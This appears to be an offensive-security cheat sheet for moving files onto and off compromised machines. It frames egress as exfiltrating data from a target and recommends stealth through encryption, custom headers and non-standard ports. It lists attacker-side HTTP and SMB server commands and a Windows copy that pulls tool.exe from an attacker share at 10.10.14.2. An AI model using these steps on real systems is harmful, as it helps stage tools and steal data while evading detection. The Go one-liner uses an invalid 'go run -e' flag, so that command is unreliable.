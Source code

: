 ```yaml
---
icon: folder-tree
---
```


# File Transfer Cheat Sheet

## **File Transfer Cheat Sheet — Move Files Like a Ghost**&#x20;

***

### I. 🧩 Core Principles

| Concept              | Description                                                              |
| -------------------- | ------------------------------------------------------------------------ |
| **Ingress Transfer** | Downloading from your server to the target.                              |
| **Egress Transfer**  | Exfiltrating data from target to you.                                    |
| **Native First**     | Prefer built-in commands (curl, certutil, PowerShell, Python).           |
| **Stealth Mode**     | Use encryption (HTTPS/SMB over TLS), custom headers, non-standard ports. |
| **Redundancy**       | Always prep at least two different transfer methods.                     |

***

### II. ⚙️ Common Operator Setup

#### 🧠 HTTP Server (your box)

```bash
# Python 3
python3 -m http.server 8000

# Python 2
python -m SimpleHTTPServer 8000

# PHP
php -S 0.0.0.0:8000

# Go
go run -e 'package main;import("net/http");func main(){http.ListenAndServe(":8000",http.FileServer(http.Dir(".")))}'
```

#### ⚙️ SMB Share (Windows ↔ Linux)

```bash
sudo impacket-smbserver share $(pwd) -smb2support
# Connect from Windows target:
copy \\10.10.14.2\share\tool.exe C:\Temp\
```
